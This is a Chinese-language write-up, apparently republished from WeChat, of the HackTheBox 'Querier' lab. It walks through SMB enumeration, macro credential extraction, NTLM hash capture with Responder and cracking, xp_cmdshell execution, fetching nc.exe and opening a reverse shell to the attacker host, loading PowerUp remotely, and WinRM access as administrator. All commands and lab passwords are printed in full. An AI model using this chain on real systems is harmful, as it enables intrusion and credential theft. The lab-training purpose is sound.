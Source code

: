 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Qeq00SGpnCIRvCb_aQcfZg)

********文章来源｜MS08067 内网安全知识************星球******  
**

> 本文作者：**阿青**（Ms08067 内网安全小组成员）

querier 作为 htb 中的一个靶标环境，其中涉及的⼀些基础知识和工具应用值得学习，对该靶标的渗透流程如图所示：

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa8thnibib0IZsyK0yVrFicHHx2LrNJ6Aw2GvU3pBcmzH5gNrcoq4lm4w22tQ3ofQ4O59icrPHIUuo6jVA/640?wx_fmt=png)

图一 整体流程  

*   目标 IP: 10.10.10.125
    
*   本机 IP: 10.10.14.6
    

**需要的工具**

1.  smbclient
    
2.  responder
    
3.  nc
    
4.  powerup.ps1
    
5.  nmap
    

  
**0x01 第一阶段：从信息收集到连接数据库**

```
# nmap -sC -sV -p- 10.10.10.125 -oA querier
Starting Nmap 7.70 ( https://nmap.org ) at 2019-02-16 00:56 EST
Nmap scan report for querier.htb (10.10.10.125)
Host is up (0.013s latency).
Not shown: 65521 closed ports
PORT STATE SERVICE VERSION
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds?
1433/tcp open ms-sql-s Microsoft SQL Server 14.00.1000.00
| ms-sql-ntlm-info:
```

通过连接文件共享服务，可以下载一个名为 "Currency Volume Report.xlsm" 的文件。

```
smbclient -U QUERIER/invalid //10.10.10.125/Reports

smb: \> get "Currency Volume Report.xlsm"
```

在 Linux 下可以通过 strings 和 binwalk 来查看文件内容，这里是通过 `binwalk -e` 命令解压了 xlsm 文件，并用 strings 命令查看 vbaProject.bin 中存储的宏。

```
# strings vbaProject.bin
 macro to pull data for client volume reports
n.Conn]
Open
rver=<
SELECT * FROM volume;
word>
MsgBox "connection successful"
Set rs = conn.Execute("SELECT * @@version;")
Driver={SQL Server};Server=QUERIER;Trusted_Connection=no;Database=volume;Uid=reporting;Pwd=PcwTWTHRwryjc$c6
```

在 windows 下直接打开宏编辑器，如图

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa8thnibib0IZsyK0yVrFicHHx2KLib0xdyXHPG8Zeo4oibopLCCTNRxaz7TH5sSH0Qbc72DlrX53iaIW62A/640?wx_fmt=png)

图二 宏信息

得到 sql-server 连接信息：

*   用户名: reporting
    
*   密码: PcwTWTHRwryjc$c6
    

使用 mssqlclient 连接数据库

```
mssqlclient.py -windows-auth querier/reporting:PcwTWTHRwryjc\$c6@$TARGET_IP
```

**0x02 第二阶段：从数据库到命令执行**  

**抓取 hash 请求**  

连接数据库后，发现没有权限执行命令。这里利用 xp_dirtree 去发送一个目录请求，并利用 responder 开启一个 smb server 认证服务来抓取 hash 信息。

```
# 开启responder
responder -I eth0 -wrf
```

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa8thnibib0IZsyK0yVrFicHHx2MypOjcRELJ2tgBg9QfaMYYGOntwBPeYoH9hluKXXQjg6ZiaL09Mrhkg/640?wx_fmt=png)

发送一次 smb 认证请求

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa8thnibib0IZsyK0yVrFicHHx2tTnOIoAIhdzz4AfUIYYsOUDniaddk3SL8ZIuVicKV1aqoSeHtyYknWsQ/640?wx_fmt=png)

图三 xp_dirtree  

hash 抓取结果

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa8thnibib0IZsyK0yVrFicHHx20F7tUlGLdmvtPheu2HWiakGzupjKoVGPh3jA5kTic71bK3X5vKALic3Vg/640?wx_fmt=png)

**破解 hash**

利用 hashcat 破解抓到的 hash

```
hashcat -m 5600 ./test.nltmv2 ~/hacktools/worddic/rockyou.txt --force
```

可以利用 **_hashcat --example-hashes ｜ less_** 来方便地查看相关加密方式

破解结果:

```
MSSQL-SVC::QUERIER:7808a070c190110d:0ecfa929ab261b727253df84af7cf1f2:0101000000000000c0653150de09d20128624bd821667131000000000200080053004d004200330001001e00570049004e002d00500052004800340039003200520051004100460056000400140053004d00420033002e006c006f00630061006c0003003400570049004e002d00500052004800340039003200520051004100460056002e0053004d00420033002e006c006f00630061006c000500140053004d00420033002e006c006f00630061006c0007000800c0653150de09d201060004000200000008003000300000
000000000000000000003000009828af224f44d2d8ddb8f0e488a92d1bfff623c7fb3b5448ed22e96f6842e89b0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e003600000000000000000000000000:corporate568
```

用户名: mssql-svc

口令：corporate568

**使用 xp_cmdshell 执行命令**

开启 cmdshell

```
SQL> EXEC sp_configure 'show advanced options', 1;
[*] INFO(QUERIER): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
SQL> EXEC sp_configure 'xp_cmdshell', 1;
[*] INFO(QUERIER): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
SQL> xp_cmdshell "dir c:\users"
output
...
```

上传 nc 并反连

```
SQL> xp_cmdshell "powershell -command Invoke-WebRequest -Uri http://10.10.14.23/nc.exe -OutFile c:\programdata\nc.exe"
SQL> xp_cmdshell "c:\programdata\nc.exe 10.10.14.6 1234 -e c:\windows\system32\cmd.exe"

# nc监听
nc -lvnp 1234
```

执行命令成功

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa8thnibib0IZsyK0yVrFicHHx2dE5PJSCI7Xr3wxpteuhE63OApLdianVGXKYn71vRRL8Gp4OKFxlplOw/640?wx_fmt=png)

图四 反连  

**0x03 第三阶段: admin 提权**

利用 PowerUp.ps1 脚本收集主机信息  

_Powerup 是本地特权提升的一些调用方法，功能相当强大，拥有众多实用的脚本来帮助我们寻找目标主机 Windows 服务漏洞进行提权，也是 PowerShell Empire 和 PowerSploit 的一部分。参考_ _https://blog.csdn.net/l1028386804/article/details/86089574/_

```
PS C:\Windows\system32> IEX (New-Object Net.Webclient).downloadstring("http://10.10.14.6/PowerUp.ps1")
PS C:\Windows\system32> invoke-allchecks
[*] Checking for cached Group Policy Preferences .xml files....
Changed : {2021-03-14 14:12:48}
UserNames : {Administrator}
NewName : [BLANK]
Passwords : {MyUnclesAreMarioAndLuigi!!1!}
File : C:\ProgramData\Microsoft\GroupPolicy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
       C:\Windows\system32>powershell
```

利用 winrm 接口执行命令

_nmap 扫描时，目标开放了 5985 端口_

```
require 'winrm'

# Author: Alamot
conn = WinRM::Connection.new(
  endpoint: 'http://10.10.10.125:5985/wsman',
  user: 'querier\administrator',
  password: 'MyUnclesAreMarioAndLuigi!!1!',
)

command=""

conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')")
        print(output.output.chomp)
        command = gets
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print stdout
            STDERR.print stderr
        end
    end
    puts "Exiting with code #{output.exitcode}"
end

# ruby querier.rb

...
```

利用 wmiexec 连接

```
wmiexec.py Administrator:MyUnclesAreMarioAndLuigi\!\!1\!@10.10.10.125
```

**0x04 总结**

在对整个靶场的攻击中，前期的信息收集很重要，比如通过 nmap 扫描的 445 端口发现敏感文件，而后运用 sql-server 去实现命令执行，最后通过 5985 端口执行命令，同时，发现 sql_server 无法执行命令时，也可以尝试运用 xp_dirtree+responder 的方式进行突破。

**扫描下方二维码加入星球学习**  

**加入后邀请你进入内部微信群，内部微信群永久有效！**

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa9Y7Ac6gb6JZVymJwS3gu8cniaUZzJeYAibE3v2VnNlhyC6fSTgtW94Pz51p0TSUl3AtZw0L1bDaAKw/640?wx_fmt=png) ![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa9Y7Ac6gb6JZVymJwS3gu8cT2rJYbRzsO9Q3J9rSltBVzts0O7USfFR8iaFOBwKdibX3hZiadoLRJIibA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWaicBVC2S4ujJibsVHZ8Us607qBMpNj25fCmz9hP5T1yA6cjibXXCOibibSwQmeIebKa74v6MXUgNNuia7Uw/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa9Y7Ac6gb6JZVymJwS3gu8cRey7icGjpsvppvqqhcYo6RXAqJcUwZy3EfeNOkMRS37m0r44MWYIYmg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaicjovru6mibAFRpVqK7ApHAwiaEGVqXtvB1YQahibp6eTIiaiap2SZPer1QXsKbNUNbnRbiaR4djJibmXAfQ/640?wx_fmt=jpeg) ![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWaicJ39cBtzvcja8GibNMw6y6Amq7es7u8A8UcVds7Mpib8Tzu753K7IZ1WdZ66fDianO2evbG0lEAlJkg/640?wx_fmt=png)  

**和 4000 + 位同学一起加入星球学习**  

![](https://mmbiz.qpic.cn/mmbiz_gif/XWPpvP3nWa9FwrfJTzPRIyROZ2xwWyk6xuUY59uvYPCLokCc6iarKrkOWlEibeRI9DpFmlyNqA2OEuQhyaeYXzrw/640?wx_fmt=gif)